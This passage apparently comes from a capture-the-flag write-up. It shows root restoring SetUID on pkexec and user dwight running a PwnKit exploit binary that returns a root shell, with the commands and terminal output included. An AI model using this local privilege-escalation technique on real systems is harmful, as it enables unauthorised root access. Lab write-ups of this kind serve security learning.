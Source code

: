 ### Re-SetUID pwnkit

As root, I’ll change `pkexec` back to SetUID permissions:

```

[root@paper ~]# chmod 4755 /usr/bin/pkexec
[root@paper ~]# ls -l /usr/bin/pkexec
-rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec

```

Back in the shell as dwight, I’ll try the exploit again:

```

[dwight@paper shm]$ ./exploit 
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory ‘GCONV_PATH=.’: File exists

[+] Enjoy your root if exploit was completed successfully
[root@paper shm]#

```

It works and returns a root shell.